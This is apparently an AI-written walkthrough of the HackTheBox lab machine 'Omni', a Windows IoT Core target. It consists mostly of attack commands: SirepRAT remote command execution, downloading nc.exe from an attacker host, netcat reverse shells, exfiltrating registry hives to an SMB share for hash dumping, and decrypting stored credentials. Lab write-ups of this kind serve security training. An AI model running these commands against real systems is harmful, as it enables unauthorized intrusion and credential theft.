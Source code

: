 Got it! Here's your **HTB: Omni** walkthrough with all relevant commands included and organized by phase for clarity.

---

# 🧠 HackTheBox: Omni Walkthrough

> Difficulty: Easy  
> OS: Windows IoT Core  
> IP: `10.10.10.204`

---

## 🛰️ Recon

**Full Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.204
```

**Service Version Scan**
```bash
nmap -p 135,5985,8080,29817,29819,29820 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.204
```

---

## 🌐 Web Enumeration

**HTTP on port 8080 prompts for auth:**  
> Realm: *Windows Device Portal*

Add to `/etc/hosts`:
```bash
echo "10.10.10.204 omni.htb" | sudo tee -a /etc/hosts
```

---

## 🧰 Exploitation - SYSTEM Access via Sirep

**Tool**: [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT)

**Basic Command Execution**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c dir c:\ '
```

**Working Directory for Staging**
```bash
dir c:\windows\system32\spool\drivers\color /b
```

**Upload nc.exe**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\spool\drivers\color\nc.exe -uri http://10.10.14.6/nc64.exe'
```

**Start Listener**
```bash
rlwrap nc -lnvp 443
```

**Execute Reverse Shell**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443'
```

---

## 🪪 SYSTEM to app

**user.txt is encrypted**
```powershell
(Import-CliXml -Path C:\data\users\app\user.txt).GetNetworkCredential().Password
```

---

## 🔐 Dumping Hashes (Alternate method)

**Start SMB Server**
```bash
smbserver.py share . -smb2support -username df -password df
```

**Mount Share & Dump Registry**
```cmd
net use \\10.10.14.6\share /user:df df
reg save HKLM\sam \\10.10.14.6\share\sam
reg save HKLM\system \\10.10.14.6\share\system
reg save HKLM\security \\10.10.14.6\share\security
```

**Extract with secretsdump**
```bash
secretsdump.py -sam sam -security security -system system LOCAL
```

**Crack with Hashcat or Jupyter Notebook (Penglab)**

---

## 🧑‍💻 Shell as app via HTTP:8080 (Windows Device Portal)

**Login with creds**
```text
Username: app
Password: mesh5143
```

**Command Execution on Portal**:  
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🔑 Privesc app → administrator

**Found Cred Dump File**
```powershell
Import-CliXml -Path iot-admin.xml
```

**Get Creds**
```powershell
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl
```

**Output:**
```text
Username : administrator
Password : _1nt3rn37ofTh1nGz
```

---

## 🧑‍🔬 Shell as Administrator

**Login to Portal with Admin Credentials**

**Reverse Shell**
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🏁 Loot Flags

**Get root.txt**
```powershell
(Import-CliXml -Path C:\data\users\administrator\root.txt).GetNetworkCredential().Password
```